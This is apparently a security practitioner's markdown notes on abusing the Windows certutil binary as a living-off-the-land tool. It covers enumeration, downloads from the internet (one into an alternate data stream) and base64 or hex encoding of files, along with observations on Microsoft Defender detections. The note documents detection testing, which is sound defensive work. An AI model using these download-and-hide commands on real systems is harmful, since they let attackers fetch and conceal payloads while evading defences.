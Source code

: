 # Lolbas CertUtil

[Lolol Farm](https://lolol.farm/) is a project that groups all living of the land techniques. [Lolbas](https://lolbas-project.github.io/#) is specifically targetting Windows binaries. [Certutil](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil) is one of these binaries that can be abused.

## Enumeration of Infrastructure

You can enumerate the PKI infrastructure with `certutil`:

```Shell
certutil.exe
```

This command yields you:

* the name of the server is that is the certificate authority
* the domain for that system

## Download file from Internet Case 1

Test:

```Shell
certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe 7zip.exe
```

This gets detected and prevented by Microsoft Defender but (16th of January 2025) instead of detecting the download using a lolbin it named the incident `Defender prevented execution of 'Trojan:Win/Ceprolad.A' in the command line ...`.
It tags it as a `low` priority event since it got prevented. I attempted to do a localhost download, but that failed too, the block is thus not on the fact the url is public or local.

## Download file from Internet Case 2

Test:

```Shell
certutil.exe -verifyctl -f -split http://7-zip.org/a/7z1604-x64.exe 7zip.exe
```

This gets detected and prevented by Microsoft Defender but (16th of January 2025) instead of detecting the download using a lolbin it named the incident `Defender prevented execution of 'Trojan:Win/Ceprolad.A' in the command line ...`.
It tags it as a `low` priority event since it got prevented. I attempted to do a localhost download, but that failed too, the block is thus not on the fact the url is public or local.

## Download file from Internet and Save to alternate data stream

Test:

```
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Xiobe/Get-ShortcutsContent/refs/heads/main/Get-LNKShortcutsContent.ps1 c:\temp:ttt
```

## Encode a file

### Encode to a base64 encoded file

Test:

```
certutil -encode c:\windows\system32\calc.exe encoded_calc.exe
```

### Encode to a hexadecimal encoded file

Test:

```
certutil -encodehex c:\windows\system32\calc.exe encodedhex_calc.exe
```

## Decode a file

### Decode a base64 file

Test:

```
certutil -decode encoded_calc.exe decoded_calc.exe
```

### Decode a hexadecimal encoded file

Test:

```
certutil -decodehex encodedhex_calc.exe decodedhex_calc.exe
```
